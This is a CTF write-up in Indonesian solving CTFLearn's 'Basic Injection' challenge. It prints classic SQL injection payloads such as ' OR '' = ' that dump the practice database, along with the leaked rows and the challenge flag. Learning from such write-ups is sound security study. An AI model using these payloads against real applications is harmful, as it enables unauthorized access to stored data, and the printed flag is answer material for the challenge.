 ### Basic Injection
Challenge ini adalah challenge ertama saya saat mencoba belajar di [CTFLearn](ctflearn.com)

### Pertanyaan


See if you can leak the whole database using what you know about SQL Injections. [Link](https://web.ctflearn.com/web4/)

Don't know where to begin? Check out CTFlearn's SQL Injection Lab [Link](https://ctflearn.com/lab/sql-injection-part-1)

### Cara mengerjakan

Pada awal membuka [Challenge](https://web.ctflearn.com/web4/) kita akan disuguhkan tampilan web dengan input, pada awalnya saya bingun ingin menambahkan apa. Lalu saya kemudian mencoba beberapa SQL injection yang pernah saya pelajari seperti :
```
admin' OR '1' = '1' -- '
' OR '' = ''
name = '' AND pass = '1' = '1'
```
Dan ternyta gagal, saya pun searching di internet, kemudian mendapatkan jawaban dari TurtledCoder di [Medium](https://medium.com/@TurtledCoder/ctflearn-com-basic-injection-4dc5114e911c) , di sana dia menjelaskan kalau kita meng-inspect web tersebut maka akan ada komentar pada source codenya, yaitu :
```
<!-- Try some names like Hiroki, Noah, Luke -->
```
lalu saya coba masukan semua nama, dan ternyata yang berhasil adalah Luke
```
Name: Luke
Data: I made this problem. 
```
tetapi, tidak ada flag yang saya temukan, kemudian dalam artikel TurtledCoder tadi, saya membaca lagi, dan menemukan kalau cara mendapatkan informasi lain adalah dengan cara mengetik 
```
' OR '' = '
```
Setelah itu munculah banyak data termasuk flag
```
 Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```
